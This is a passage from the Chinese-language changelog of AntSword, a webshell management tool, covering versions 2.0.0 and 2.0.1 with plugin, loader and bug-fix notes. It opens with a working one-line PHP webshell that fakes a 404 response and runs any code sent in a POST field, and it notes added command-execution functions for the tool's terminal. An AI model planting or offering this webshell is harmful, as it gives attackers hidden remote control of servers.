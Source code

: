  ```
    <?php http_response_code(404);@eval($_POST['ant']);?>
  ```

 * JSP Shell 基础信息调整, 现在默认的目录为 shell 编译后的 class 文件所在目录
 * 关于页面新增 [Discord 在线交流地址](https://discord.gg/Uzh5nUf)

## 2018/09/12 `(v2.0.1)`

### 插件

* 新增 [「LiveScan」](https://github.com/virink/LiveScan) 插件 (Author: @virink)

 > Webshell存活弹出插件

 1. 通过请求 Webshell 并判断返回数据是否一致判断 Webshell 是否存活
 2. 仅对 PHP,ASP,ASPX 有效
 3. 一键将失联的 Webshell 移动到 `[.Trash]` 分类
 4. 一键清空 `[.Trash]` 分类

### Bug Fix

* 修正下载更新时 chunk 导致进度条显示问题
* 修正 Windows 客户端用户自定义编码器加载问题
* 修正 C 盘无权限目录显示的 Bug(#51)
* 修正 Windows 客户端下上传文件路径截取问题(#97 thx @jjf012)
* 修正 Linux 客户端载入源码路径错误的问题 (cbb67dd0)
* 修正 Windows 服务器修改文件时间失败问题(#98 thx @jjf012)
* 修正 ASP Access 数据库显示数据库失败问题

### Other

* PHP虚拟终端执行命令函数增加了 `shell_exec`, `passthru`, `exec`, `popen`
* ASP wget 功能模版 `Microsoft.XMLHTTP` 替换为 `MSXML2.ServerXmlHttp` 支持 https (#98 thx @jjf012)
* 添加「检查更新」菜单
* 提示通过 git 控制源码用户通过 git 命令增量更新(http下载的源码暂时不支持增量更新)

## 2018/08/25 `(v2.0.0)`

### 模块增强

* **新增源代码加载器**

 从 **v2.0.0-beta** 版本开始，我们引入了**加载器**这一概念。
 
 用户/开发者只需要下载对应平台的加载器，无需安装额外的环境，即可对源代码进行**编辑**、**执行**、**调试**等操作。可直接运行>=v2.0-beta版本的**开发版**和**发行版**源代码。
 
 > 有关「加载器」的具体使用方式，可直接查阅 《[AntSowd文档——获取蚁剑](https://doc.u0u.us/zh-hans/getting_started/get_antsword.html)》
 
 ![首次打开加载器](http://7xtigg.com1.z0.glb.clouddn.com/doc/getting_started/get_antsword_1.jpg)

* **新增「加载插件」模块**


[medicaean-github]: https://github.com/Medicean
[peablog-github]: https://github.com/peablog
[loveshell-github]: https://github.com/loveshell
[Lupino-github]: https://github.com/Lupino
